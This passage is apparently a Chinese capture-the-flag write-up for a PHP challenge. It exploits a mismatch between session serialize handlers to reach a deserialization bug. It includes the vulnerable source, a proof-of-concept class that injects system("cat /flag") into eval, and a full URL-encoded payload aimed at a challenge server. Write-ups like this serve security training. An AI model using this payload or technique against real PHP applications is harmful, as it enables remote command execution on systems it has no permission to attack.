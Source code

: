 ```php
<?php
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
highlight_file(__FILE__);
if (isset($_GET['cnss'])) {
    $_SESSION['cnss'] = $_GET['cnss'];
}
```

逻辑很简单，绕过__wakeup使得username为admin即可

主要利用点在于：两个文件的session.serialize_handler不同引起的反序列化：
[带你走进PHP session反序列化漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6640)
[深入浅析PHP的session反序列化漏洞问题_php实例_脚本之家 (jb51.net)](https://www.jb51.net/article/116246.htm)

步骤如下：

poc:

```php
<?php

class CNSS{
    private $username = 'admin';
    private $code = 'system("cat /flag");';
}


$a = new CNSS();
echo urlencode('|'.serialize($a));
```

1. 生成payload，记得改属性数目来绕过__wakeup
2. 访问save.php借助cnss传payload，让网页获得seesion数据
3. 再从save.php跳转至index.php，确保session不变，由于引擎不同就会触发反序列化，然后再触发`__destruct()`方法执行`eval()`

![](https://i.loli.net/2021/10/08/w2oi6UJxeHELBjs.png)

payload:

```
http://121.41.7.149:65004/save.php?cnss=%7CO%3A4%3A%22CNSS%22%3A3%3A%7Bs%3A14%3A%22%00CNSS%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A10%3A%22%00CNSS%00code%22%3Bs%3A20%3A%22system%28%22cat+%2Fflag%22%29%3B%22%3B%7D
```

然后再访问：即可触发

```
http://121.41.7.149:65004/
```





## [😮Mid]To_be_Admin_Again_and_Again

